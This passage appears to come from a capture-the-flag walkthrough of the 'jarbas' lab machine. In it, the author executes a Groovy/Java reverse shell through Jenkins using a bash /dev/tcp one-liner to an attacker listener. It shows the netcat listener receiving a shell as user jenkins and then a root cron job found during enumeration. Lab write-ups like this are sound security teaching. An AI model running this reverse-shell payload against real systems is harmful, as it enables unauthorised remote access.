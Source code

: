 Now we are sure that the commands are executed properly. My next step was to run some `Java Reverse Shell`. 

{% highlight text %}
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.4/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
{% endhighlight %}

And with our listener, we catch the connection. 

{% highlight text %}
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.17: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.17] 57184
whoami
jenkins
uname -a
Linux jarbas 3.10.0-693.21.1.el7.x86_64 #1 SMP Wed Mar 7 19:03:37 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
{% endhighlight %}

One thing I've noticed during usual enumeration is en entry in crontab, executing a bash script every 5 minutes with root privilages. 

{% highlight text %}
cat crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1

cat /etc/script/CleaningScript.sh
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
{% endhighlight %}

